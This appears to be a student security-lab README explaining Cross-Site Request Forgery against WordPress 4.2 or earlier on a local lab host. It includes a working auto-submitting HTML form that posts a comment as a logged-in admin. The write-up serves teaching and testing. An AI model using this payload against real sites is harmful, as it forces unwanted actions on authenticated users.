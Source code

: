 Cross Site Request Forgery (CSRF) Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. CSRF attacks are possible when the application does not ensure that a user is in fact interacting with it.

Steps:

1)Make a comment 

2) Then inspect the code to be able to create a malicious form 

3)Create a malicious form code:

    <html>
        <head></head>
        <body>
            <form name="csrfForm" action="http://wpdistillery.vm/wp-comments-post.php" method="POST">
                <input type="hidden" name="comment" value="I made a new comment">
                <input type="hidden" name="comment_post_ID" value="1">
                <input type="hidden" name="comment_parent" value="0">
                <input type="hidden" name="_wp_unfiltered_html_comment" value="456890231">
                <input type="submit" value="Post+Comment">
            </form>
            <script>document.csrfForm.submit(); </script>
    </body>
    </html>
    
4)With that code set up a malicious website

5)The malicious website will automatically submit ad post the comment 'I made a new comment' as an admin.

Tested in version: WordPress <= 4.2

GIF Walkthrough:

![CSRF](https://user-images.githubusercontent.com/78192383/162076560-c9452ca4-848f-4010-9c10-ce8a0b0c7de4.gif)
